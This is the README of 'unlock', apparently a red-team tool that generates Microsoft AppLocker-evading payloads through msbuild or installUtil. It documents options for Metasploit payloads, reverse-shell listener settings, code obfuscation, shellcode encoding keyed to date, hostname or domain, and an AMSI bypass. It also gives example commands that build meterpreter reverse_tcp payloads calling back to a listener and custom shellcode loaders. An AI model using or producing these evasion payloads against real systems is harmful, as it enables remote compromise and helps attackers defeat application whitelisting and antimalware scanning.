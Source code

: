 # unlock
Microsoft Applocker evasion tool

Unlock aims to be an easy tool for generating payloads which can bypass MS applocker restriction.
The code is heavily based on subtee work.

## Usage

unlock.py [-h] [--output FILENAME] [--framework FWV] [--payload PAYLOAD] [--lhost LHOST] [--lport LPORT]  [--method METHOD] [--enaobf] [--encshell ENCSHELL] [--custom CUSTOM] [--x64] [--noamsi]  

## Arguments:
--output FILENAME    Output file name without extension  
--framework FWV      Framework NET version  
--payload PAYLOAD    Payload in MSF syntax  
--lhost LHOST        Local host for reverse shell  
--lport LPORT        Local port for reverse shell  
--method METHOD      Evasion method: msbuild or installUtil  
--enaobf             Enable CS code obfuscation  
--encshell ENCSHELL  Encode shell with: yyyymmdd, yyyymm, hostname, or domain  
--enctext TEXT       Text to xorencode payload with, used with hostname or domain  
--custom CUSTOM      Custom binary payload (don't use with --payload/--lhost/--lport)  
--x64                Set if your custom payload is x64  
--noamsi             Add code to bypass AMSI  

## Notes
- everything but msbuild on framework 4.0 is untested

## Examples
- python unlock.py --framework 4.0 --payload windows/x64/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method installUtil  
- python unlock.py --framework 4.0 --payload windows/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method msbuild  
- python unlock.py --framework 4.0 --custom shellcode.bin --x64  
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell yyyymm --noamsi  
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell hostname --enctext SECRETARY  
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell domain --enctext CONTOSO  

